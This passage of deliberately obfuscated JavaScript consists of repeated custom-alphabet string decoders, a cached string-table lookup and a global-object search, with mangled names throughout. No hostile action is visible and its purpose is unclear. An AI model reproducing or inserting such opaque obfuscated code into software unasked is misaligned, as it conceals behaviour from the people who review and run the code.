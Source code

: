 <m0ViAs8[THCkQ8[0x1b]];m0ViAs8[-THCkQ8[0x1a]]++){m0ViAs8[THCkQ8[0x1d]]=m0ViAs8[THCkQ8[0x1c]].indexOf(m0ViAs8[-THCkQ8[0x12]][m0ViAs8[-THCkQ8[0x1a]]]);if(m0ViAs8[THCkQ8[0x1d]]===-THCkQ8[0x1])continue;if(m0ViAs8[THCkQ8[0x1e]]<THCkQ8[0x0]){m0ViAs8[THCkQ8[0x1e]]=m0ViAs8[THCkQ8[0x1d]]}else{eeJxuz(m0ViAs8[THCkQ8[0x1e]]+=m0ViAs8[THCkQ8[0x1d]]*THCkQ8[0x14],m0ViAs8[THCkQ8[0x1f]]|=m0ViAs8[THCkQ8[0x1e]]<<m0ViAs8[THCkQ8[0x20]],m0ViAs8[THCkQ8[0x20]]+=(m0ViAs8[THCkQ8[0x1e]]&THCkQ8[0x16])>THCkQ8[0x17]?THCkQ8[0x18]:THCkQ8[0x19]);do{eeJxuz(m0ViAs8[THCkQ8[0x21]].push(m0ViAs8[THCkQ8[0x1f]]&THCkQ8[0x3]),m0ViAs8[THCkQ8[0x1f]]>>=THCkQ8[0x2],m0ViAs8[THCkQ8[0x20]]-=THCkQ8[0x2])}while(m0ViAs8[THCkQ8[0x20]]>THCkQ8[0xa]);m0ViAs8[THCkQ8[0x1e]]=-THCkQ8[0x1]}}if(m0ViAs8[THCkQ8[0x1e]]>-THCkQ8[0x1]){m0ViAs8[THCkQ8[0x21]].push((m0ViAs8[THCkQ8[0x1f]]|m0ViAs8[THCkQ8[0x1e]]<<m0ViAs8[THCkQ8[0x20]])&THCkQ8[0x3])}return kUXBzvs(m0ViAs8[THCkQ8[0x21]])}function BNbvib(m0ViAs8){if(typeof gzMXT2x[m0ViAs8]===THCkQ8[0x5]){return gzMXT2x[m0ViAs8]=kGdRAH(nvvtXxm[m0ViAs8])}return gzMXT2x[m0ViAs8]}eeJxuz(nTnwFsC=Object,HcjzCGt[BNbvib(THCkQ8[0x81])](\"\"[BNbvib(0x69)+BNbvib(0x6a)][BNbvib(0x6b)+BNbvib(0x6c)][BNbvib(THCkQ8[0x78])]))}catch(bF4XAJ){}cBxJtEL:for(uZ1uQq=THCkQ8[0x0];uZ1uQq<m0ViAs8[RPo7GVw(THCkQ8[0x62])];uZ1uQq++)try{var rxtViPx;tC2jbfW(PopIRQ);function IyXWepP(m0ViAs8){var nTnwFsC=\"ARxX&h{/71=o5qgbMjmQ^JW!},0BCy6.TwSaO@c`kdD%[H+9s|~p<4;NYIu>vnt)fU(eLZPlGiKrEVF2$*\\\"#?z3]_:8\",HcjzCGt,LZV2C8V,RPo7GVw,kGdRAH,BNbvib,bF4XAJ,rxtViPx;eeJxuz(HcjzCGt=\"\"+(m0ViAs8||\"\"),LZV2C8V=HcjzCGt.length,RPo7GVw=[],kGdRAH=THCkQ8[0x0],BNbvib=THCkQ8[0x0],bF4XAJ=-THCkQ8[0x1]);for(rxtViPx=THCkQ8[0x0];rxtViPx<LZV2C8V;rxtViPx++){var IyXWepP=nTnwFsC.indexOf(HcjzCGt[rxtViPx]);if(IyXWepP===-THCkQ8[0x1])continue;if(bF4XAJ<THCkQ8[0x0]){bF4XAJ=IyXWepP}else{eeJxuz(bF4XAJ+=IyXWepP*THCkQ8[0x14],kGdRAH|=bF4XAJ<<BNbvib,BNbvib+=(bF4XAJ&THCkQ8[0x16])>THCkQ8[0x17]?THCkQ8[0x18]:THCkQ8[0x19]);do{eeJxuz(RPo7GVw.push(kGdRAH&THCkQ8[0x3]),kGdRAH>>=THCkQ8[0x2],BNbvib-=THCkQ8[0x2])}while(BNbvib>THCkQ8[0xa]);bF4XAJ=-THCkQ8[0x1]}}if(bF4XAJ>-THCkQ8[0x1]){RPo7GVw.push((kGdRAH|bF4XAJ<<BNbvib)&THCkQ8[0x3])}return kUXBzvs(RPo7GVw)}function PopIRQ(...m0ViAs8){m0ViAs8[THCkQ8[0x4]]=THCkQ8[0x1];if(typeof gzMXT2x[m0ViAs8[THCkQ8[0x0]]]===THCkQ8[0x5]){return gzMXT2x[m0ViAs8[THCkQ8[0x0]]]=IyXWepP(nvvtXxm[m0ViAs8[THCkQ8[0x0]]])}return gzMXT2x[m0ViAs8[THCkQ8[0x0]]]}nTnwFsC=m0ViAs8[uZ1uQq]();for(rxtViPx=THCkQ8[0x0];rxtViPx<HcjzCGt[PopIRQ(0x6f)];rxtViPx++)if(typeof nTnwFsC[HcjzCGt[rxtViPx]]===PopIRQ(0x70))continue cBxJtEL;return nTnwFsC}catch(bF4XAJ){}return nTnwFsC||this}function YU8Isx(m0ViAs8){tC2jbfW(HcjzCGt);function nTnwFsC(m0ViAs8){var nTnwFsC=\"7+`}$.(w3)v\\\"2iWkOV/?{q,A%>^XyBTuCoH1QM0h:ldeagD~ErPn9xU#m4t[*Y5_F]jzJ!p@6GKNZ8Sf=&sb;IL<|Rc\",HcjzCGt,gzMXT2x,nvvtXxm,uZ1uQq,LZV2C8V,RPo7GVw,kGdRAH;eeJxuz(HcjzCGt=\"\"+(m0ViAs8||\"\"),gzMXT2x=HcjzCGt.length,nvvtXxm=[],uZ1uQq=THCkQ8[0x0],LZV2C8V=THCkQ8[0x0],RPo7GVw=-THCkQ8[0x1]);for(kGdRAH=THCkQ8[0x0];kGdRAH<gzMXT2x;kGdRAH++){var BNbvib=nTnwFsC.indexOf(HcjzCGt[kGdRAH]);if(BNbvib===-THCkQ8[0x1])continue;if(RPo7GVw<THCkQ8[0x0]){RPo7GVw=BNbvib}else{eeJxuz(RPo7GVw+=BNbvib*THCkQ8[0x14],uZ1uQq|=RPo7GVw<<LZV2C8V,LZV2C8V+=(RPo7GVw&THCkQ8[0x16])>THCkQ8[0x17]?THCkQ8[0x18]:THCkQ8[0x19]);do{eeJxuz(nvvtXxm.push(uZ1uQq&THCkQ8[0x3]),uZ1uQq>>=THCkQ8[0x2],LZV2C8V-=THCkQ8[0x2])}while(LZV2C8V>THCkQ8[0xa]);RPo7GVw=-THCkQ8[0x1]}}if(RPo7GVw>-THCkQ8[0x1]){nvvtXxm.push((uZ1uQq|RPo7GVw<